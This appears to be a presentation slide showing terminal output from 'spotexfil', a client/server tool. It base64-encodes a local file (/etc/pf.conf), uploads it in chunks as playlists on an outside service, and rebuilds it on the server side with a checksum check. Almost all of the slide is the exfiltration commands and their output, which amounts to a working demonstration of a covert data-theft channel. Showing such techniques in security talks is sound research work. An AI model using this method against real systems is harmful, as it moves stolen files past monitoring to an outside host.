

# Client				Server
$ ./spotexfil_client.py -f /etc/pf.conf
[*] Data cleared
[*] checksum plaintext 8b095411047fe913aa07e7bc3e7540f7c2a8a134
[***] Generating playlists
	[*] Creating 1-payloadChunk
DATA="IwojIERlZmF1bHQgUEYgY29uZmlndXJhdGlvbiBmaWxlLgojCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYWluIHJ1bGVzZXQsIHdoaWNoIGdldHMgYXV0b21hdGljYWxseSBsb2FkZWQKIyBhdCBzdGFydHVwLiAgUEYgd2lsbCBub3QgYmUgYXV0b21hdGljYWxseSBlbmFibGVkLCBob3dldmVyLiAgSW5zdGVhZCwKIyBlYWNoIGNvbXBvbmVudCB3aGljaCB1dGlsaXplcyBQRiBpcyByZXNwb25
	[*] Creating 2-payloadChunk
DATA=zaWJsZSBmb3IgZW5hYmxpbmcgYW5kIGRpc2FibGluZwojIFBGIHZpYSAtRSBhbmQgLVggYXMgZG9jdW1lbnRlZCBpbiBwZmN0bCg4KS4gIFRoYXQgd2lsbCBlbnN1cmUgdGhhdCBQRgojIGlzIGRpc2FibGVkIG9ubHkgd2hlbiB0aGUgbGFzdCBlbmFibGUgcmVmZXJlbmNl…………………………………………
$ ./spotexfil_server.py -r
[***] Retrieving playlists
	[*] Retrieving 1-payloadChunk
DATA="IwojIERlZmF1bHQgUEYgY29uZmlndXJhdGlvbiBmaWxlLgojCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYWluIHJ1bGVzZXQsIHdoaWNoIGdldHMgYXV0b21hdGljYWxseSBsb2FkZWQKIyBhdCBzdGFydHVwLiAgUEYgd2lsbCBub3QgYmUgYXV0b21hdGljYWxseSBlbmFibGVkLCBob3dldmVyLiAgSW5zdGVhZCwKIyBlYWNoIGNvbXBvbmVudCB3aGljaCB1dGlsaXplcyBQRiBpcyByZXNwb25
[*] Retrieving 2-payloadChunk	DATA=zaWJsZSBmb3IgZW5hYmxpbmcgYW5kIGRpc2FibGluZwojIFBGIHZpYSAtRSBhbmQgLVggYXMgZG9jdW1lbnRlZCB…………………………………

[*] checksum payload 8b095411047fe913aa07e7bc3e7540f7c2a8a134
#
# Default PF configuration file.
#
# This file contains the main ruleset, which gets automatically loaded
# at startup.  PF will not be automatically enabled, however.  Instead,
# each component which utilizes PF is responsible for enabling and disabling
# PF via -E and -X as documented in pfctl(8).  That will ensure that PF
# is disabled only when the last enable reference is released.
#
# Care must be taken to ensure that the main ruleset does not get flushed,
# as the nested anchors rely on the anchor point defined here. In addition,
# to the anchors loaded by this file, some system services would dynamically
# insert anchors into the main ruleset. These anchors will be added only when
# the system service is used and would removed on termination of the service.
#
# See p